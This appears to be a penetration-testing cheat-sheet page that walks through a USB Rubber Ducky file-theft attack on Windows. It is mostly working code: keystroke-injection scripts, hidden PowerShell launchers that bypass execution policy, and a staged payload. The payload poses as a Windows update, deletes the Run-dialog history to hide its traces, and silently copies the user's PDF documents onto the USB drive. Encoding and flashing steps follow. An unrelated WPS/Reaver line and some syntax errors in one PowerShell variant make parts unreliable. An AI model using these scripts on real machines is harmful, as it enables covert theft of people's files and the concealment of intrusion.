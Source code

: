 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **WPS** 

The following need to be installed:
* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
#Note: The shorter versions don't change the directory
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}

> **Rubber Ducky Stager**

{% highlight bash %}
REM USB Exfiltration Payload from Hak5 episodes 2112 - 2114
REM Target: Windows XP SP3+ Author: Hak5Darren Props: Diggster, Midnightsnake
DELAY 1000
GUI r
DELAY 100
STRING powershell ".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
ENTER
{% endhighlight %}

> **Encode Using Rubber Ducky Encoder**

{% highlight bash %}
java -jar duckencode.jar -i ../slerp/payload.txt -o inject.bin
./ducktools.py -e -l us ../slerp/payload.txt inject.bin
{% endhighlight %}

> **Flashing Rubber Ducky**

{% highlight bash %}
sudo apt-get install dfu-programmer
sudo dfu-programmer at32uc3b1256 dump
sudo dfu-programmer at32uc3b1256 erase
sudo dfu-programmer at32uc3b1256 flash --supress-bootloader-mem c_duckv2.1.hex
sudo eject /media/dk/_
{% endhighlight %}

{% highlight bash %}
sudo ./ducky-flasher
sudo eject /media/dk/_
{% endhighlight %}

> **Further References** 

Rubber Ducky Encoder:<br>
[https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar](https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar)
[https://github.com/kevthehermit/DuckToolkit](https://github.com/kevthehermit/DuckToolkit)

Create a Rubber Ducky:<br>
[http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick](http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick)
[https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-
stick](https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-stick)

Payloads:<br>
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads)
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload)

[https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky](https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky)

[https://github.com/hak5darren/USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

[http://usbrubberducky.com/#!index.md](http://usbrubberducky.com/#!index.md)

[https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)

[](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)


